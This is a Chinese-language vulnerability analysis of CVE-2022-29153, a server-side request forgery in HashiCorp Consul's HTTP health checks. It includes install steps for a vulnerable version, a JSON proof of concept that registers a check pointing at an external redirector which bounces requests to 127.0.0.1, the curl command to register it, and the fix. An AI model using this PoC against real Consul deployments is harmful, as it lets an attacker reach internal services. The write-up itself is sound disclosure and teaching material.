 # CVE-2022-29153 consul SSRF

## 漏洞信息
- 漏洞类型：SSRF
- 漏洞版本：< 1.9.17，>= 1.10.0, < 1.10.10，>= 1.11.0, < 1.11.5
- 漏洞简介：http类型的health_check被重定向导致的SSRF

## repo介绍
consul是一个用go语言编写的分布式应用管理服务器，目前在github上以及有24.7k个star

## 漏洞分析
consul提供了对于服务的health_check能力。首先安装一个漏洞版本的consul
```bash
curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
sudo apt-get update && sudo apt-get install consul=1.10.9
```
然后启动一个consul服务器
```bash
consul agent -dev -enable-script-checks -node=web -ui
```
访问`http://localhost:8500/`可以看到consul的界面

![image](images/1.png)

编写一个`ssrf.json`作为poc，里面标志的http地址会将请求302重定向到`127.0.0.1:80`
```json
{
  "ID": "ssrf",
  "name": "ssrf",
  "port": 5001,
  "check": {
    "checkid": "ssrf_check",
    "name": "Check ssrf",
    "http": "http://fuzz.red/ssrf/127.0.0.1/",
    "method": "GET",
    "interval": "10s",
    "timeout": "1s"
  }
}
```
使用如下指令将`health_check`注册到consul服务器
```sh
curl --request PUT --data @ssrf.json http://127.0.0.1:8500/v1/agent/service/register
```
可以看到添加成功

![image](images/2.png)

这时consul会主动运行`health_check`，请求被302重定向到内网，导致了SSRF。可以看到nc也收到了请求

![image](images/3.png)

## 修复方式
在[agent/config.go](https://github.com/hashicorp/consul/blob/928fefd2a7ee5ae8d90377514ec2022ee9730be0/agent/config/config.go#L391)中添`加DisableRedirects`字段，可以在服务器端配置，关闭`health_check`的重定向

![image](images/4.png)

## 参考链接
- https://github.com/advisories/GHSA-q6h7-4qgw-2j9p